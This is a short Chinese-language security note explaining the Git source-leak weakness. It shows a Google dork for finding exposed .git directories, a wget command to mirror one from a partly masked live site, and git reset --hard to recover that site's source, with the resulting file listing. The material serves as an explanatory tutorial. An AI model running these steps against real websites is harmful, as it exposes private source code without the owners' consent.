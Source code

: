 ```yaml
---
title: Git源码泄露漏洞
created: '2019-09-04T04:21:29.343Z'
modified: '2019-09-04T04:21:49.998Z'
---
```


# Git源码泄露漏洞

### 介绍

wooyun wiki 中有一篇文章 [Git导致文件泄露](http://wiki.wooyun.org/server:git)，讲了使用 git 时需要注意的一个问题。

git 在初始化代码库的时候，会在当前目录下面产生一个.git的隐藏目录文件，用来记录代码的变更等。
同时使用这个文件，可以恢复各个版本的代码。所以如果 .git 泄漏的话，就可能同时泄漏了源代码。

### [](#u6D4B_u8BD5 "测试")测试

先手工测试下，使用 google 搜索一个泄漏的 .git 文件。

|

1

 |

google: ".git" intitle:"index of"

 |

得到第一条记录：“www.xxxvou.com/.git/” (xxx is harmony)，然后将文件下载到本地

|

1
2
3

 |

mkdir git\-test && cd git\-test
wget \-\-mirror \-\-include\-directories=/.git http://www.xxxvou.com/.git
cd www.xxxvou.com

 |

使用 git 命令使代码库回退到上一个版本

|

1

 |

git reset \-\-hard

 |

完成后即可看到网站（或其他应用）源码

|

1
2
3
4
5
6
7
8
9
10
11

 |

about.html            faq.html                      philosophy.html
anirudhr              google9f9a1d6499d5d387.html   products.html
assets                hack                          robots.txt
bootstrap             images                        showcases.html
bufof.html            index.html                    svn\-commit.tmp
careers.html          ip.php                        team.html
contact.html          lfi.html                      testingstuff
demo.html             management\-console.html       tmp
docs                  network\-enforcer.html         vision.html
endpoint\-module.html  nouvou\-datasheet\-jan2012.pdf
expertises.html       old\-site

 |

### [](#u7EC6_u8282 "细节")细节

*   如何获取 .git 文件：手工下载/工具搜索
*   git 下版本库回退的一些命令以及参数
*   参考：[http://wiki.wooyun.org/server:git](http://wiki.wooyun.org/server:git)

[.git文件源码泄露 | Hycwall's Note](https://cathon.github.io/2015/09/14/get-code-from-get/)
